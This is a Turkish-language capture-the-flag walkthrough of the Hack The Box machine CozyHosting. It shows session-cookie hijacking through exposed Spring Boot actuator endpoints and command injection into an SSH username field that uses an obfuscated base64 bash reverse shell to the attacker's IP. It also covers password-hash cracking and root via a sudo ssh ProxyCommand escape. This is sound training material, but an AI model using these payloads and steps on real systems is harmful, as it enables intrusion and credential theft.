



# CozyHosting

## User Flag

!!! info "Target IP Address"

    10.10.11.230

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
sudo nmap 10.10.11.230 -sV -Pn
```

```text title="Output" hl_lines="6 7"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-13 17:32 +03
Nmap scan report for 10.10.11.230
Host is up (0.086s latency).
Not shown: 983 closed tcp ports (reset)
PORT      STATE    SERVICE     VERSION
22/tcp    open     ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http        nginx 1.18.0 (Ubuntu)
254/tcp   filtered unknown
481/tcp   filtered dvs
705/tcp   filtered agentx
1066/tcp  filtered fpo-fns
1165/tcp  filtered qsm-gui
2107/tcp  filtered msmq-mgmt
6646/tcp  filtered unknown
7627/tcp  filtered soap-http
8088/tcp  filtered radan-http
9000/tcp  open     cslistener?
16113/tcp filtered unknown
20005/tcp filtered btx
28201/tcp filtered unknown
49167/tcp filtered unknown
58080/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 122.31 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde [http://cozyhosting.htb](http://cozyhosting.htb) isimli bir sayfaya yönlendirildim.

Bu adresi `/etc/hosts` dosyasına ekledim:

```bash
echo "10.10.11.230 cozyhosting.htb" | sudo tee -a /etc/hosts
```

Ardından Gobuster aracı ile dizin numaralandırma girişiminde bulundum:

```bash
gobuster dir -u cozyhosting.htb -w /opt/useful/SecLists/Discovery/Web-Content/common.txt
```

```text title="Output" hl_lines="16"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/useful/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 401) [Size: 97]
/error                (Status: 500) [Size: 73]
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/logout               (Status: 204) [Size: 0]
/render/https://www.google.com (Status: 200) [Size: 0]
Progress: 4727 / 4727 (100.00%)
===============================================================
Finished
===============================================================
```

Burada bulunan [http://cozyhosting.htb/error](http://cozyhosting.htb/error) adresine gittiğimde aşağıdaki uyarı ile karşılaştım:



Bu uyarı mesajı için kısa bir Google araması gerçekleştirdim. Arama sonuçlarında Spring Boot uzantısı ile karşılaştım. Bu uzantı, herhangi bir hata durumunda varsayılan olarak bu uyarıyı verebiliyormuş.

Gobuster aracı ile başka bir deneme gerçekleştirdim:

```bash
gobuster dir -u cozyhosting.htb -w /opt/useful/SecLists/Discovery/Web-Content/spring-boot.txt
```

```text title="Output" hl_lines="23"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/useful/SecLists/Discovery/Web-Content/spring-boot.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/actuator             (Status: 200) [Size: 634]
/actuator/env         (Status: 200) [Size: 4957]
/actuator/env/lang    (Status: 200) [Size: 487]
/actuator/env/home    (Status: 200) [Size: 487]
/actuator/env/path    (Status: 200) [Size: 487]
/actuator/health      (Status: 200) [Size: 15]
/actuator/mappings    (Status: 200) [Size: 9938]
/actuator/beans       (Status: 200) [Size: 127224]
/actuator/sessions    (Status: 200) [Size: 148]
Progress: 112 / 113 (99.12%)
===============================================================
Finished
===============================================================
```

Burada bulunan `actuator/sessions` dizini ilgi çekiciydi. Durum kodu da 200 olduğu için kontrol etmekte fayda gördüm. Bu sebeple [http://cozyhosting.htb/actuator/sessions](http://cozyhosting.htb/actuator/sessions) adresine gittikten sonra aşağıdaki bilgilerle karşılaştım:

```json title="JSON"
{
  "E51030DBE8CC41A1108DD92160277602": "kanderson",
  "BBC71311542EF412AC36961BF65E3019": "UNAUTHORIZED"
}
```

Burp Suite aracının `Proxy` sekmesinde `Intercept` seçeneği aktif iken ve FoxyProxy tarayıcı eklentisinde Burp profili (127.0.0.1:8080) etkin durumda iken [http://cozyhosting.htb/admin](http://cozyhosting.htb/admin) adresine ulaşmayı denedim (Gobuster ile bulunmuştu).

Burp aşağıdaki bilgileri yakaladı:

```text title="Request"
GET /admin HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=6E08E4D3A1DE7526593ECEC6EEBB5816
Upgrade-Insecure-Requests: 1
```

İsteğe ait Cookie bilgisini `kanderson` kullanıcısının Cookie bilgisi ile değiştirdim:

```text title="Request" hl_lines="9"
GET /admin HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: JSESSIONID=E51030DBE8CC41A1108DD92160277602
Upgrade-Insecure-Requests: 1
```

İsteği `Forward` ettikten sonra Admin paneline başarılı bir şekilde girebildim:



Bu panelde bulunan `Connection settings` kısmının `Hostname` kısmına rastgele bir değer (`host`) girdikten sonra `Username` kısmına `test'` değerini girip `Submit` tuşuna bastım.

Burp aşağıdaki bilgileri yakaladı:

```text title="Request"
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr
Accept-Encoding: gzip, deflate
Referer: http://cozyhosting.htb/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 19
Origin: http://cozyhosting.htb
DNT: 1
Connection: close
Cookie: JSESSIONID=F8622B7C8B9B9BD6F766B8BCD4FF8A54
Upgrade-Insecure-Requests: 1

host=host&username=test'
```

Bu sayfada ++right-button++ --> `Send to Repeater` ile bilgileri Burp Repeater sekmesine gönderdim. Ardından Burp Repeater sekmesine geçiş yaptım ve bu isteği `Send` ile tekrar gönderdim. Cevap olarak aşağıdaki bilgiler geldi:

```text title="Response"
HTTP/1.1 302
Server: nginx/1.18.0 (Ubuntu)
Date: Sun, 14 Jan 2024 08:44:00 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=/bin/bash: -c: line 1: unexpected EOF while looking for matching `''/bin/bash: -c: line 2: syntax error: unexpected end of file
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY
```

Location kısmında Bash hata mesajı var! Eğer `username` kısmına bir reverse shell kodu yerleştirirsek işimizi görebilir. Bunun için öncesinde aşağıdaki komut ile yerel makineme ait IP adresimi öğrendim:

```bash
ip a
```

```text title="Output" hl_lines="5"
...SNIP...

5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none
    inet 10.10.14.45/23 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 dead:beef:2::102b/64 scope global
       valid_lft forever preferred_lft forever
    inet6 fe80::3249:9cef:8cb6:ff8d/64 scope link stable-privacy
       valid_lft forever preferred_lft forever
```

Ardından Netcat ile 4444 numaralı port üzerinde bir dinleyici başlattım:

```bash
nc -lvnp 4444
```

Payload olarak aşağıdaki kodu kullandım. Bu payload aynı zamanda Base64 ile kodlanmıştır:

```bash
echo "bash -i >&/dev/tcp/10.10.14.45/4444 0>&1" | base64 -w 0
```

```text title="Output"
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK
```

Payload kullanılarak oluşturduğum reverse shell kodu ise aşağıda verildiği gibidir:

```bash
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA+JjEK"|base64${IFS%??}-d|bash;
```

Burada görülen IFS ([Internal Field Separator](https://bash.cyberciti.biz/guide/$IFS)) özel değişkeni, bir argümanın ne zaman bitip, bir sonrakinin ne zaman başladığını belirlemek için kullanılır. Varsayılan değeri sırasıyla 3 karakterden oluşur:

1. Boşluk karakteri
2. Tab karakteri (`^I`)
3. Yeni satır karakteri (`$`)

Bunu aşağıdaki komut ile doğrulayabiliriz:

```bash
cat -etv <<< "$IFS"
```

```text title="Output"
 ^I$
$
```

Bu sebeple `${IFS%??}` komutu, IFS değişkeninin sondan (`%`) iki karakterini (`??`) siler. Yani sonuç olarak sadece boşluk karakterini elde ederiz.

Reverse shell kodunu Burp içerisinde bulunan `username` kısmına yapıştırdıktan sonra bu değeri seçip ++right-button++ --> `Convert selection` --> `URL` --> `URL-encode key characters` ile URL formatına uygun hale getirdim.

!!! info "URL Encoding"

    Benzer işlemi gerçekleştirmek için [bu](https://www.urlencoder.org/) site de kullanılabilir.

Burp Request en son aşağıdaki gibi gözükmelidir:

```text title="Request" hl_lines="16"
POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: tr
Accept-Encoding: gzip, deflate
Referer: http://cozyhosting.htb/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 216
Origin: http://cozyhosting.htb
DNT: 1
Connection: close
Cookie: JSESSIONID=7D0162E6DCCC35EC39B4588615DFF6F4
Upgrade-Insecure-Requests: 1

host=host&username=%3becho${IFS%25%3f%3f}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC40NS80NDQ0IDA%2bJjEK"|base64${IFS%25%3f%3f}-d|bash%3b
```

Bu işlemlerin ardından `Send` tuşuna bastığımda Netcat dinleyici üzerinde shell elde edebildim:

```text title="Output"
listening on [any] 4444 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.230] 43212
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$
```

Hemen arkasından shell yükseltmesi yaparak daha sağlam bir TTY elde ettim ve böylece komut çalıştırırken alınabilecek hataları en aza indirgemiş oldum.

Bulunduğum dizinin içeriğini kontrol ettiğimde `cloudhosting-0.0.1.jar` isimli bir dosya ile karşılaştım. Bu dosyayı yerel makineme indirmek için bu dosyanın bulunduğu dizinde bir Python HTTP sunucusu başlattım:

```bash
python3 -m http.server 8888
```

Ve yerel makinemde ilgili dosyayı indirmek için aşağıdaki komutu kullandım:

```bash
wget http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar
```

Bu dosya ile çalışabilmek için `jd-gui` isimli kod çözücü (`decompiler`) aracını kullandım:

```bash
jd-gui cloudhosting-0.0.1.jar
```

Açılan uygulamada `BOOT-INF` --> `classes` --> `application.properties` yolunu takip ettiğimde aşağıdaki çıktı ile karşılaştım:



Bulunan kimlik bilgilerini kullanarak PostgreSQL ile etkileşime geçtim (parola sorulduğunda `Vg&nvzAQ7XxR` değerini girdim):

```bash
psql -U postgres -W -h localhost
```

PostgreSQL içinde mevcut olan veri tabanlarını görüntüledim:

```text
\list
```

```text title="Output" hl_lines="4"
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/pos
```

Bu sonuçlardan `cozyhosting` veri tabanını seçtim:

```text
\connect cozyhosting
```

Aşağıdaki sorgu ile kullanıcılara ait kullanıcı adı ve parola bilgisini ele geçirdim:

```sql
SELECT name,password FROM users;
```

```text title="Output" hl_lines="4"
   name    |                           password
-----------+--------------------------------------------------------------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
(2 rows)
```

Hash dizesinden parolayı elde etmek için John the Ripper aracını kullandım. Öncesinde bu hash dizesini bir dosyaya kaydettim:

```bash
echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash.txt
```

John aracını aşağıdaki şekilde kullandım:

```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

```text title="Output" hl_lines="6"
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)  ========================================================================================================================>>>
1g 0:00:00:34 DONE (2024-01-13 23:59) 0.02864g/s 80.43p/s 80.43c/s 80.43C/s onlyme..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

John, parolayı 40 saniyeden kısa bir sürede buldu.

Bu parolanın hangi kullanıcıya ait olabileceğini öğrenmek için ev dizinindeki klasörleri listeledim:

```bash
ls /home
```

```text title="Output"
josh
```

Bu bilgiler ile `josh` kullanıcısına geçiş yaparak `app` --> `josh` yetki yükseltmesi gerçekleştirmiş oldum:

```bash
su josh
```

Yeni kullanıcı hesabına geçiş yaptıktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
find / -name *user.txt -type f -exec cat {} \; 2> /dev/null
```

## Root Flag

Mevcut yetkilerimi daha da yükseltebilmek için bazı araştırmalar gerçekleştirdim. İlk olarak aşağıdaki kontrolü sağladım:

```bash
sudo -l
```

```text title="Output" hl_lines="7"
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Mevcut kullanıcı ile `ssh` ikili dosyasını çalıştırabildiğimi fark ettim. GTFOBins sitesinde bulunan [zafiyet](https://gtfobins.github.io/gtfobins/ssh/#sudo) ile `root` kullanıcısı oldum:

```bash
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Kullanıcı bayrağını ele geçirirken kullandığım komuta benzer bir komut ile `root` bayrağını ele geçirebildim:

```bash
find / -name *root.txt -type f -exec cat {} \; 2> /dev/null
```
